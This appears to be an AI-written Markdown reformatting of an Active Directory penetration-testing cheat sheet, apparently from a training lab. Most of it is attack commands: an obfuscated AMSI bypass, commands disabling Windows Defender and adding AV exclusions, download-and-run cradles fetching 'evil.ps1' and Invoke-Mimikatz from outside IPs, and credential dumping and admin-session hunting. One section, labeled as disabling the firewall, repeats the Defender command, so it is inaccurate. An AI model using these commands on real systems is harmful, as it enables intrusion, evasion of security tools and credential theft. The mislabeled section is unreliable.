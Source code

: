To format the given content in a clean and readable manner for a GitHub repository, it's best to use proper Markdown syntax. This will enhance readability and make it easier for others to follow along. Here's how you can structure your content:

```markdown
# PowerShell Scripts and Enumeration Techniques

This repository contains various PowerShell commands and scripts used for domain enumeration, local admin access, AMSI bypass, and other security-related tasks. Below are examples and explanations of various techniques that may be useful for penetration testing, system administration, and security auditing.

## 1. Domain Information Retrieval

### Command to Retrieve Domain Information

```bash
C:\Users\Naveen>cmd /c "hostname & whoami & ipconfig & whoami /priv"
```

### Get Domain Information Using PowerShell

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

## 2. PowerShell Script Execution Examples

### Loading PowerShell Scripts

- Load a PowerShell script using dot sourcing:
  ```powershell
  PS . C:\AD\Tools\Powershell.ps1
  ```

- Import a module:
  ```powershell
  Import-Module <modulename>.psd
  ```

- List all commands in a module:
  ```powershell
  Get-Command -Module <modulename>
  ```

### Get Help for PowerShell Commands

- Get help for `Get-NetGroup`:
  ```powershell
  get-help Get-NetGroup
  get-help Get-NetGroup -examples
  get-help Get-NetGroup -full
  get-help Get-NetGroup -detailed
  show-command Get-NetGroup
  Update-Help
  ```

## 3. Exclusion Adding for Specific Paths

### Add Exclusion Path for Anti-Virus

```powershell
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"
```

### Script Block Example for Disabling AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## 4. Disabling Anti-Virus Real-Time Protection

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 5. PowerShell Script Execution Bypass

- Bypass Execution Policy:
  ```powershell
  powershell -ep bypass
  powershell -ExecutionPolicy bypass
  ```

- Run PowerShell command with encoded string:
  ```powershell
  powershell -encodedcommand <encoded_command>
  ```

## 6. Finding Local Admin Access

### Enumerate Local Admin Access

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> . .\Find-WMILocalAdminAccess.ps1
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

### Checking for Domain Admin Sessions

```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose   
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -stealth
```

### Enumerate Sessions on Any Machine

```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## 7. Remote Script Execution

### Loading PowerShell Scripts Remotely

- Using `iex` (Invoke-Expression) for remote script execution:
  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
  ```

### Download and Execute Remote Payload

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```

## 8. Language Modes in PowerShell

PowerShell has four language modes:

- No Language
- Constant Language
- Restricted Language
- Full Language Mode

## 9. Finding Local Admin Access on Specific Machines

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 10. Disable Firewall Incoming Connections

- Disable firewall incoming connections to allow reverse shell:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```

## 11. Using `Invoke-Mimikatz` for Credential Dumping

### Load and Execute Mimikatz

```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Dump hashes using Mimikatz:
  ```powershell
  Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
  ```

## 12. Handling Application Control (AppLocker)

- Enum AppLocker policies:
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```

## Conclusion

This repository provides essential commands and scripts for penetration testing and domain administration. Always ensure you have proper authorization before using these techniques in any environment.
```

### Key Elements:
1. **Headers:** Use headers (`#`, `##`, `###`) to structure the content.
2. **Code Blocks:** Wrap command examples in triple backticks (```) to make them stand out.
3. **Bullet Points:** Use bullets (`-`) to list steps or options.
4. **Inline Code:** Use single backticks (`` ` ``) for inline code snippets.

This format will make the document easy to read, navigate, and share on GitHub.
